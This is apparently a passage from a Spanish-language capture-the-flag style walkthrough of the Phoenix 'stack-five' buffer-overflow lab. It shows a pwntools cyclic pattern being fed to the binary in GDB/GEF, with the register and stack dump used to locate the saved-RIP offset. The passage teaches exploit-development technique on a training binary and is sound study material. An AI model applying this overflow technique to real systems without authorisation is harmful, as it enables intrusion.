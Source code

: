 Generamos un **patrón único** con la herramienta pwn cyclic (Pwntools) para provocar un crash y luego identificar el offset exacto donde se sobrescribe el **saved RIP**

```csharp
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/Binarios/5_stack-five]
└─# pwn cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```

Y este patrón lo copiamos y lo pegamos en el dato que está esperando el binario 

```csharp
gef➤  r
Starting program: /opt/phoenix/amd64/stack-five 
Welcome to phoenix/stack-five, brought to you by https://exploit.education
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

Breakpoint 1, 0x00000000004005a1 in start_level ()
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007fffffffe5a0  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
$rbx   : 0x00007fffffffe698  →  0x00007fffffffe89e  →  "/opt/phoenix/amd64/stack-five"
$rcx   : 0x8080808080808080
$rdx   : 0x00007fffffffe5ff  →  "ayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaabl[...]"
$rsp   : 0x00007fffffffe5a0  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
$rbp   : 0x00007fffffffe620  →  "haabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabta[...]"
$rsi   : 0xfefefefefefefeff
$rdi   : 0x00007fffffffe669  →  0x0000007ffff7ff00
$rip   : 0x00000000004005a1  →  <start_level+20> nop 
$r8    : 0x00007fffffffe5a0  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
$r9    : 0xa0a0a0a0a0a0a0a  ("\n\n\n\n\n\n\n\n"?)
$r10   : 0x8080808080808080
$r11   : 0x1               
$r12   : 0x00007fffffffe6a8  →  0x00007fffffffe8bc  →  "LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so[...]"
$r13   : 0x00000000004005a4  →  <main+0> push rbp
$r14   : 0x0               
$r15   : 0x0               
$eflags: [carry PARITY adjust zero sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffe5a0│+0x0000: "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"	 ← $rax, $rsp, $r8
0x00007fffffffe5a8│+0x0008: "caaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoa[...]"
0x00007fffffffe5b0│+0x0010: "eaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqa[...]"
0x00007fffffffe5b8│+0x0018: "gaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasa[...]"
0x00007fffffffe5c0│+0x0020: "iaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaaua[...]"
0x00007fffffffe5c8│+0x0028: "kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawa[...]"
0x00007fffffffe5d0│+0x0030: "maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaaya[...]"
0x00007fffffffe5d8│+0x0038: "oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabba[...]"
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400594 <start_level+7>  or     BYTE PTR [rax-0x73], 0x45
     0x400598 <start_level+11> or     BYTE PTR [rax-0x77], 0xc7
     0x40059c <start_level+15> call   0x4003f0 <gets@plt>
 →   0x4005a1 <start_level+20> nop    
     0x4005a2 <start_level+21> leave  
     0x4005a3 <start_level+22> ret    
```